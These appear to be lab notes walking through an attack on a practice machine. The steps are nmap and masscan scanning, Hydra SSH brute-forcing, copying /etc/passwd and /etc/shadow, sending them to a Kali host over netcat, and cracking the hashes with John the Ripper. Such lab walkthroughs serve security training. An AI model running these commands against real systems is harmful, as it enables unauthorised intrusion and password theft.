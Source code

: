 (checklist)

- port scan
- version scan
- service scan

COMMANDS:
Scanning:
  -We start by finding the IP of your machine.
	 arp-scan 192.168.121.0/24
	 nmap 192.168.121.137
	 masscan -e eth0 -p 1-65535 192.168.121.137> masscan.txt
	 nmap -sU --top-ports 100 192.168.121.137 > top-100-udp-ports.txt
	 
Create a user.txt and password.txt that lists common combination:

Bruteforcing SSH using Hydra
	hydra -L user.txt -P password.txt ssh://192.168.121.137 -f
			-L is for the username files
			-P is for password files ssh://<target ip> for the target protocol to crack and the IP address
			-f means stop after it finds a valid credential
			
Login to SSH using the found credentials
	which nc (to check if netcat is installed, if not then install it)
	 save the passwdand the shadowfiles into a text file
		  - cat /etc/passwd > duches-passwd.txt
		  - cat /etc/shadow > duches-shadow.txt
	
Transfer the files using Netcat (main goal is to transfer the files to your kali)
		-In Debian, run the command below.
			nc 192.168.121.131  4444 < duches-passwd.txt
		-In Kali, run the command below to receive the duches-passwd.txt
			nc -lnvp 4444 > duches-passwd.txt
		-Repeat the process with the duches-shadow.txt file
			nc 192.168.121.131  4444 < duches-shadow.txt
			nc -lnvp 4444 > duches-shadow.txt

Run “ unshadow” to merge the two files. Save it as hash.txt
		unshadow duches-passwd.txt  duches-shadow.txt > hash.txt

Run JohnTheRipper to crack the username and password:
	john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt


